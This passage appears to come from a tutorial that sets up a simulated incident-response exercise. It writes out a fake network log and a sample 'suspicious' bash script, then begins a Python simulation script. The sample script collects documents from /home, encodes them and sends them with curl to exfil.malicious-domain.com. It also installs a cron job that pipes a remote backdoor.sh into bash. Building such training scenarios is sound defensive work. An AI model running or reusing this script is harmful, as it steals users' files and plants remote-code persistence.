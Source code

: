    ```bash
   2023-03-15 01:25:40 | 192.168.1.10 | 192.168.1.20 | SMB | SMB2 Read Request File: confidential.xlsx
   2023-03-15 01:25:45 | 192.168.1.20 | 192.168.1.10 | SMB | SMB2 Read Response File: confidential.xlsx
   2023-03-15 01:26:10 | 192.168.1.10 | 203.0.113.42 | HTTP | POST /upload.php HTTP/1.1
   2023-03-15 01:26:15 | 203.0.113.42 | 192.168.1.10 | HTTP | HTTP/1.1 200 OK
   2023-03-15 01:26:30 | 192.168.1.10 | 192.168.1.5 | DNS | Standard query 0x1234 A exfil.malicious-domain.com
   2023-03-15 01:26:35 | 192.168.1.5 | 192.168.1.10 | DNS | Standard query response 0x1234 A 198.51.100.75
   2023-03-15 01:26:40 | 192.168.1.10 | 198.51.100.75 | HTTPS | Client Hello
   2023-03-15 01:26:45 | 198.51.100.75 | 192.168.1.10 | HTTPS | Server Hello
   2023-03-15 01:27:00 | 192.168.1.10 | 198.51.100.75 | HTTPS | Application Data
   2023-03-15 01:35:00 | 192.168.1.10 | 198.51.100.75 | HTTPS | Application Data
   EOF
   
   # Create a simulated suspicious file
   cat > evidence/suspicious_script.txt << 'EOF'
   #!/bin/bash
   # Data exfiltration script
   
   # Collect system information
   hostname > /tmp/sys_info.txt
   whoami >> /tmp/sys_info.txt
   ip addr >> /tmp/sys_info.txt
   
   # Find interesting files
   find /home -name "*.xlsx" -o -name "*.pdf" -o -name "*.docx" > /tmp/file_list.txt
   
   # Compress files for exfiltration
   tar -czf /tmp/data.tar.gz -T /tmp/file_list.txt
   
   # Encode for transfer
   base64 /tmp/data.tar.gz > /tmp/data.b64
   
   # Exfiltrate data
   curl -X POST -d @/tmp/data.b64 https://exfil.malicious-domain.com/upload.php
   
   # Clean up
   rm /tmp/sys_info.txt /tmp/file_list.txt /tmp/data.tar.gz /tmp/data.b64
   
   # Add persistence
   echo "* * * * * curl -s https://malicious-domain.com/backdoor.sh | bash" > /tmp/cron_job
   crontab /tmp/cron_job
   rm /tmp/cron_job
   EOF
   ```

2. **Create a script to simulate the incident response process**
   ```bash
   cat > simulate_incident.py << 'EOF'
   #!/usr/bin/env python3
   import os
   import time
   import datetime
   import shutil
   
   def print_header(text):
       print("\n" + "=" * 80)
       print(f" {text}")
       print("=" * 80)
   
   def print_step(text):
       print(f"\n>> {text}")
   ```